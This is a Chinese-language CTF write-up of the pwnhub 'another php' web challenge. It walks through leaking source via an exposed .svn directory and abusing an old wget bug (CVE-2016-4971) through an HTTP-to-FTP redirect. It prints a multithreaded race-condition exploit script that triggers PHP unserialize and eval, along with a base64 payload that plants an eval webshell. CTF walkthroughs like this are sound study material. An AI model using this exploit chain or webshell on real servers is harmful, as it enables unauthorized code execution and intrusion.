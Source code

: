 ```yaml
---
title: pwnhub_another php web部分
date: 2017-03-05 21:22:23
tags:
- pwnhub
- php
- wget
categories:
- Blogs
---
```


周末不是太有时间，所以就没怎么打pwnhub，后来快结束的时候完成了web部分，这里贴上web部分的wp吧

<!--more-->

开始没啥可说的，应该是用来当一些咸鱼的吧，index.php~

![image_1bafa2nvpl7hl7n14d71sjk4g3m.png-15.1kB][1]

登陆框，验证码很普通的，没啥可说的，试了试没啥可玩的，那就扫目录，找到了.svn

```
http://52.80.32.116/2d9bc625acb1ba5d0db6f8d0c8b9d206/.svn/

400
```

跑脚本拖源码报错了，搜了搜好像是拖的数据库报错了，所以手动看看，好像是内容被改过了

```
http://52.80.32.116/2d9bc625acb1ba5d0db6f8d0c8b9d206/.svn/wc.db

Myname:Pwnhub{6666666flag}
havefun:)

用户名和密码相同

The a9b4d7cc810da015142f61f7e236d50b.php:)Welcome Pwnhub{6666666flag}
```

![image_1bad45g037c73iessr9qgp4u9.png-33.2kB][2]

源码是phpjm加密，没啥可说的，直接工具解

[http://tool.lu/php/](http://tool.lu/php/)

拿到源码

```
<?php
error_reporting(E_ALL);
$firesun_path = '';
class Pwnhub
{
    function __wakeup()
    {
        if (isset($_GET['pwnhub']) == "firesun") {
            echo "Hacked by Firesun!";
            eval(base64_decode($_POST['pwnhub']));
        }
    }
}
function pwnhubfile()
{
    global $firesun_path;
    file_put_contents($firesun_path . '/firesun', serialize($_SESSION));
}
session_start();
register_shutdown_function('pwnhubfile');
function set_context($id)
{
    global $_SESSION, $firesun_path;
    $firesun_path = '/var/www/data/' . $id;
    if (!is_dir($firesun_path)) {
        mkdir($firesun_path);
    }
    chdir($firesun_path);
    if (!is_file('firesun')) {
        $_SESSION = array();
    } else {
        $_SESSION = unserialize(file_get_contents('firesun'));
    }
}
function download_image($url)
{
    $url = parse_url($origUrl = $url);
    if (isset($url['scheme']) && $url['scheme'] == 'http') {
        if ($url['path'] == '/pwnhub.png') {
            if (isset($url['query'])) {
                die('byebyebye');
            }
            wget_wrapper($origUrl);
            echo "Nice:)";
        } else {
            echo 'sorry!';
        }
    }
}
if (!isset($_SESSION['id'])) {
    $sessId = bin2hex(openssl_random_pseudo_bytes(10));
    $_SESSION['id'] = $sessId;
} else {
    $sessId = $_SESSION['id'];
}
session_write_close();
set_context($sessId);

if (isset($_POST['image'])) {
    $p = $_POST['image'];
    if (stripos($p, 'php')) {
        echo 'wow!!!';
        die('byebye');
    }
    download_image($p);
    echo '<img src="pwnhub.jpg" width=184 height=200/>';
} else {
    die('no image:(');
}
?>
<!-- pwnhubs0urcec0d3.zip -->
<?php 
```

关键问题在于怎么控制firesun文件内容....

我们看看提示

```
2017.03.04 21:20:00wget_wrapper就是wget，不要想着在url上做文章进行命令执行，过滤很严，wget版本较低，wget版本较低，wget版本较低，重要的话说三遍
```

根据提示和源码，我们发现是SECUINSIDE CTF Quals 2016 - Trendyweb改的，然后找到wget漏洞CVE-2016-4971，发现一篇wp

[http://quanyang.github.io/secuinside-ctf-quals-2016-trendyweb/](http://quanyang.github.io/secuinside-ctf-quals-2016-trendyweb/)

根据wp自己研究发现简单的方式被和谐了，所以只能竞争解决问题。

这里稍微梳理下竞争逻辑：

1、访问的时候会生成独有的sessionid，并执行`set_context($sessId);`，获取firesun文件内容。

2、在第一次请求结束后，pwnhubfile会执行生成firesun

```
function pwnhubfile()
{
    global $firesun_path;
    file_put_contents($firesun_path . '/firesun', serialize($_SESSION));
}

register_shutdown_function('pwnhubfile');
```

但最重要的问题wget是不能覆盖文件的，如果wget相同文件名的，会出现firesun.1。

也就是说第一次请求结束还没能反序列化成功，就代表这里失败了。

所以我们每个sessionid只能使用一次，这里需要一个成熟的多线程脚本。




先配个线上环境，开一个flask加个跳转至ftp
```
#!/usr/bin/env python
from flask import Flask, redirect

app = Flask(__name__)

@app.route("/pwnhub.png")
def test():
    return redirect("ftp://119.29.192.14/firesun")

if __name__ == "__main__":
    app.run(host="0.0.0.0",port=8082)

```

然后另一个地方开个ftp，端口设为默认21

```
sudo python -m pyftpdlib -p 21
```

目录下写个firesun
```
O:6:"Pwnhub":0:{}
```

多线程脚本
```
import requests
import threading
import time
from random import Random

url = "http://52.80.32.116/2d9bc625acb1ba5d0db6f8d0c8b9d206/a9b4d7cc810da015142f61f7e236d50b.php"

def down(cookie):

    data = {'image': 'http://119.29.192.14:8082/pwnhub.png'}

    r = requests.post(url, data = data, cookies=cookie)


def ri(cookie):
    s = requests.Session()

    data = {'pwnhub': 'ZmlsZV9wdXRfY29udGVudHMoIi92YXIvd3d3L2h0bWwvMmQ5YmM2MjVhY2IxYmE1ZDBkYjZmOGQwYzhiOWQyMDYvaW1hZ2UvZGRvZ2UucGhwIiwgYmFzZTY0X2RlY29kZSgiUEQ5d2FIQWdaWFpoYkNna1gxQlBVMVJiTWwwcE96OCsiKSk7'}

    r = s.post(url + "?pwnhub=firesun", data = data, cookies=cookie)
    if "Hacked by Firesun" in r.text:
        print r.text


def random_str(randomlength=8):
    str = ''
    chars = 'AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789'
    length = len(chars) - 19
    random = Random()
    for i in range(randomlength):
        str+=chars[random.randint(0, length)]
    return str

for i in range(0,10000):

    session = random_str(26)

    cookie = {'PHPSESSID': session}

    threading.Thread(target = down,args = (cookie,)).start()
    threading.Thread(target = ri,args = (cookie,)).start()

```

能成功，但是几率不高，我们把shell写入到image/下

踩了个蜜汁坑，base64_decode过后会把`<?php ?>`中间的东西省略掉...所以又加了一层。

```
<?php eval($_POST[2]);?


file_put_contents("/var/www/html/2d9bc625acb1ba5d0db6f8d0c8b9d206/image/ddoge.php", base64_decode("PD9waHAgZXZhbCgkX1BPU1RbMl0pOz8+"));


ZmlsZV9wdXRfY29udGVudHMoIi92YXIvd3d3L2h0bWwvMmQ5YmM2MjVhY2IxYmE1ZDBkYjZmOGQwYzhiOWQyMDYvaW1hZ2UvZGRvZ2UucGhwIiwgYmFzZTY0X2RlY29kZSgiUEQ5d2FIQWdaWFpoYkNna1gxQlBVMVJiTWwwcE96OCsiKSk7
```

很多函数都过滤了，所以只有eval的webshell
```
exec,passthru,shell_exec,assert,glob,imageftbbox,bindtextdom,dir,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,symlink,chgrp,chmod,chown,dl,mail,readlink,stream_socket_server,fsocket,imap_mail,apache_child_terminate,posix_kill,proc_terminate,proc_get_status,syslog,openlog,ini_alter,chroot,fread,fgets,fgetss,file,readfile,ini_set,ini_restore,putenv,apache_setenv,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,fpassthru,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,fputs,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,highlight_file,show_source,copy,system,	
```

![image_1baf7qq8413qm1l5j8ff1dnn9u39.png-84.9kB][3]


听ven师傅说后面是pwn php，我就不自寻死路了，就到这里


  [1]: http://static.zybuluo.com/LoRexxar/3ahdwdvid617k41przx54lx5/image_1bafa2nvpl7hl7n14d71sjk4g3m.png
  [2]: http://static.zybuluo.com/LoRexxar/w71w0hbgw4cnrhafki8fft94/image_1bad45g037c73iessr9qgp4u9.png
  [3]: http://static.zybuluo.com/LoRexxar/kiqpvpnu7yxvoyh58t42bwjh/image_1baf7qq8413qm1l5j8ff1dnn9u39.png